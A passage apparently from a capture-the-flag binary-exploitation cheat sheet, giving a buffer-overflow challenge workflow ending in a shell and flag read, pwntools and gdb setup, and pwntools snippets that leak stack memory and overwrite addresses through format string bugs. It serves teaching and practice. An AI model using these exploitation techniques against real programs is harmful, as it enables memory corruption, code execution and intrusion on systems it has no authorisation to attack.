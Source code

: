 **Use Case Example**:
```
Challenge: ./vuln (vulnerable binary)

Steps:
1. checksec ./vuln (check protections)
2. Run: ./vuln (understand input)
3. Find vulnerability (buffer overflow)
4. Find win function: objdump -t vuln | grep win
5. Calculate offset (trial: 32, 64, 128)
6. Write exploit (see code above)
7. Get shell → cat flag.txt
```

**Tools**:
```bash
# Pwntools (Python library)
pip3 install pwntools

# GDB with pwndbg
gdb ./binary
break main
run
cyclic 200
```

---

### 🎯 Format String Bug

**What it is**: Exploiting printf without format specifier

**Leak Memory**:
```python
from pwn import *

p = process('./vuln')

# Leak stack
payload = b'%p ' * 20
p.sendline(payload)
print(p.recvline())

# Leak specific address
payload = b'AAAA' + b'%7$p'  # Read 7th parameter
```

**Write to Memory**:
```python
# Write value to address
target = 0x0804a000
value = 0x41424344

payload = fmtstr_payload(offset, {target: value})
p.sendline(payload)
```
